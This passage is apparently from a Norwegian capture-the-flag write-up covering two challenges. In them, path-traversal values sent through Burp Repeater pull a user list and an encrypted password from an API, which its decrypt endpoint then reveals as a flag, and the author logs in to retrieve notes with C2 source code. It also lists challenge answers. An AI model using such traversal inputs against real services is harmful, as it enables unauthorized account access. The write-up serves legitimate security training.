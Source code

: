 Jeg brukte da Repeater-funksjonaliteten i Burp for å utforske API'et:
```bash
id=../users
# ["a","admin","Benjamin","Brian","Cynthia","Frank","George","Henry","Jason","Julia","Karen","Laura","Marilyn","Mark","Mary","Olivia","oper","Richard","Russell","Samuel","Sharon","Stephen","Theresa"]

id=../user/oper
# {"password":"83105903c96feecb4e2fce49379af0b5f4e140533d2f216d2cc617d210eec4fbebbdcd4a3c6202b1f285420146edc8ed72ce3166e8806cdf2cf3d290630741f598b2d34bac5048","username":"oper"}
```

Passordet ser ikke ut til å passe noe slags hash-format som jeg er bekjent, og hvis man sammenligner den med de andre brukerne så er lengden varierende.
Det vil da hinte til at det er kryptert, ikke hashet.

API'et har dekrypteringsfunksjonalitet, så vi kan benytte det i henhold til beskrivelsen som ble gitt:

```bash
id=../decrypt?data=83105903c96feecb4e2fce49379af0b5f4e140533d2f216d2cc617d210eec4fbebbdcd4a3c6202b1f285420146edc8ed72ce3166e8806cdf2cf3d290630741f598b2d34bac5048
# FLAGG: ed9e224f5a359543420928d1ed1a8ca8
```

Ser ut som om passordet til `oper` er `FLAGG: ed9e224f5a359543420928d1ed1a8ca8`. Det er beleilig.

```text
Kategori: 2. Oppdrag
Oppgave:  2.04_anvilnotes_password
Svar:     ed9e224f5a359543420928d1ed1a8ca8
Poeng:    10

Hvis aktøren har benyttet denne tjenesten finner vi kanskje noen interessante notater.
```

---

## 2.05_anvilnotes_source

Hvis vi logger på med brukernavn og passord nevnt ovenfor så finner vi to notater:

```text
Backup of client source code	
Backup of server source code
```

Flagget ligger i notatene, sammen med den Base-64-kodet kildekoden til C2-klienten/-serveren.
Jeg brukte [denne](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)Gunzip()Untar()) oppskriften i Cyberchef for å pakke den ut.

Koden ligger [her](context/c2_source_code/), og den kommer vi tilbake til i [2.09](#209_cloud-hq).

```text
Kategori: 2. Oppdrag
Oppgave:  2.05_anvilnotes_source
Svar:     eacad6dfaadb1b0420dc17b6560b89de
Poeng:    10

Dette så interessant ut!
En samarbeidende tjeneste i Pseudova vurderer at dette meget sannsynlig er kildekoden for skadevaren benyttet i angrepene mot kraftverket deres.
```

---